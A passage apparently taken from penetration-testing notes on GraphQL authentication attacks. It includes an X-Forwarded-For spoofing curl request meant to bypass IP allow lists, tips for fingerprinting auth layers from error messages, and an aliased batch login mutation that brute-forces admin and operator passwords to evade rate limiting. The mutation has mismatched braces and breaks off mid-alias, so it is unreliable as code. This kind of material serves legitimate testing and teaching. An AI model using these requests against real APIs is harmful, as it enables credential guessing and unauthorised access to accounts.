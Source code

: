 * Some APIs use **IP-based allow lists** for authorization, but these lack granularity.

{% code overflow="wrap" %}
```bash
curl -X POST http://localhost:5013/graphql -d '{"query":"{__typename }"}' -H "Content-Type: application/json" -H "X-Forwarded-For: 10.0.0.1"
```
{% endcode %}

### Detecting the Authentication Layer

* **Canary Queries**: Sending specific test queries can reveal how the API responds, indicating the presence of authentication mechanisms.
* **Analyzing Error Messages**: Error messages can provide clues about the authentication process.
* **Identifying Mutations**: Look for mutations like `login`, `signup`, `register`, `createUser`, or `createAccount` that hint at an authentication setup.

**Common GraphQL Authentication Errors**

<table><thead><tr><th width="404">Error message</th><th>Possible authentication implementation</th><th data-hidden></th></tr></thead><tbody><tr><td>Authentication credentials are missing. Authorization header is required and must contain a value.</td><td>OAuth 2.0 Bearer with JSON Web Token</td><td></td></tr><tr><td>Not Authorised!</td><td>GraphQL Shield</td><td></td></tr><tr><td>Not logged in  Auth required API key is required</td><td>GraphQL Modules</td><td></td></tr><tr><td>Invalid token! <br>Invalid role!</td><td>graphql-directive-auth</td><td></td></tr></tbody></table>



### Exploiting Authentication Controls

* **Brute-Forcing Passwords**:
  * **Query batching** can be used to bypass rate-limiting by combining multiple login attempts in a single request.

```bash
mutation {
    alias1: login(username: "admin", password: "admin") {
        accessToken
    }
    alias2: login(username: "admin", password: "password") {
        accessToken
    }
    alias3: login(username: "admin", password: "pass") {
        accessToken
    }
    alias4: login(username: "admin", password: "pass123") {
        accessToken
    }
    alias5: login(username: "admin", password: "password123")
    {
        accessToken
    }
    alias6: login(username: "operator", password: "operator"){
    {
        accessToken
    }
    alias7: login(username: "operator", password: "password")
        accessToken
    }
    alias8: login(username: "operator", password: "pass") {
        accessToken
    }
    alias9: login(username: "operator", password: "pass123"){
        accessToken
    }
    alias10: login(username: "operator", password: "password123"){
        accessToken
```